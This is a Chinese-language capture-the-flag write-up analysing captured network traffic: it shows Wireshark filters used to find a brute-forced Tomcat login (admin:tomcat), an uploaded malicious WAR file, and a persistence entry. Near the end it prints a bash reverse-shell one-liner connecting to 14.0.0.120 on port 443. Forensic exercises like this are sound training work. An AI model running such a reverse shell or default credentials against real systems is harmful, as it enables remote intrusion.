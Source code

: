 **5、攻击者拿到特定目录的线索后，想要通过暴力破解的方式登录，请通过分析流量找到攻击者登录成功的用户名和密码？flag 格式：flag{root-123}**

没有认证或认证不成功会返回 401，认证标识 Authorization: Basic

```plain
http contains "Authorization: Basic"
```

一个一个包找，知道返回包是 200 的时候才是认证成功的

```plain
YWRtaW46dG9tY2F0
admin:tomcat
```

**6、攻击者登录成功后，先要建立反弹 shell，请分析流量提交恶意文件的名称？flag 格式：flag{114514.txt}**

上传就是 POST 设置过滤器

```plain
http.request.method==POST
```

就一个流，跟进去就可以看到

JXQOZY.war

**7、攻击者想要维持提权成功后的登录，请分析流量后提交关键的信息？flag 提示，某种任务里的信息**

```plain
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

传完
